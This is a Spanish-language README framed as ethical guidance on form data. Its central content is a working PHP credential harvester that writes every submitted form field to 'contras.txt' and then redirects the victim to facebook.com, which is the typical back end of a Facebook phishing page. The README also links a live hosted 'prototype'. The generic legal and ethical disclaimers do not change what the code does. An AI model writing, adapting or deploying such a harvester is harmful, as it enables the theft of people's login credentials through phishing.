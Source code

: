 # README - Buenas Prácticas para Evitar Mal Uso de Datos de Formulario

Este README tiene como objetivo proporcionar información sobre buenas prácticas y directrices para garantizar que las tecnologías y scripts en uso cumplan con los principios éticos y legales, y eviten prácticas maliciosas como la recolección no autorizada de datos de formulario.

## Descripción del Código

El código proporcionado es un ejemplo que ilustra cómo se pueden manipular datos de formulario en un entorno web. Sin embargo, es esencial utilizar este código de manera ética y legal y contar con el permiso adecuado para realizar pruebas y actividades relacionadas con la seguridad.
```php
<?php
$archivo = fopen("contras.txt", "a");
fwrite($archivo, "\r\n");
foreach ($_POST as $key => $value) {
    fwrite($archivo, $key . "=" . $value . "\r\n");
}
fclose($archivo);
header("Location: https://www.facebook.com");
die();
?>

```
## Buenas Prácticas

Para evitar el mal uso de datos de formulario y garantizar la seguridad y la integridad de los sistemas y los datos, se deben seguir las siguientes buenas prácticas:

1. **Consentimiento y Autorización**: Antes de realizar pruebas de seguridad en cualquier sistema, obtén el consentimiento y la autorización explícita del propietario del sistema o sitio web. Realizar pruebas sin autorización puede ser ilegal.

2. **Entorno Controlado**: Realiza pruebas en un entorno controlado y aislado que no afecte a sistemas o datos en producción.

3. **Transparencia**: Asegúrate de que todas las pruebas se realicen de manera transparente y documentada. Registra todas las actividades realizadas.

4. **Eliminación Segura de Datos**: Si se recopilan datos durante las pruebas, asegúrate de eliminarlos de manera segura y completa una vez que las pruebas hayan concluido.

5. **Cumplimiento Legal**: Cumple con todas las leyes y regulaciones de seguridad informática aplicables en tu jurisdicción.

## Nota Importante

Este README se proporciona con la intención de promover prácticas de seguridad éticas y legales. El código proporcionado no debe utilizarse con fines maliciosos, y se debe tener cuidado de respetar las leyes y regulaciones aplicables en todo momento.

Recuerda que la seguridad informática debe centrarse en proteger sistemas y datos, no en comprometerlos. El cumplimiento ético y legal es fundamental en todas las actividades de seguridad informática.

PROTOTIPO EN:
https://increibleayudargente.000webhostapp.com/
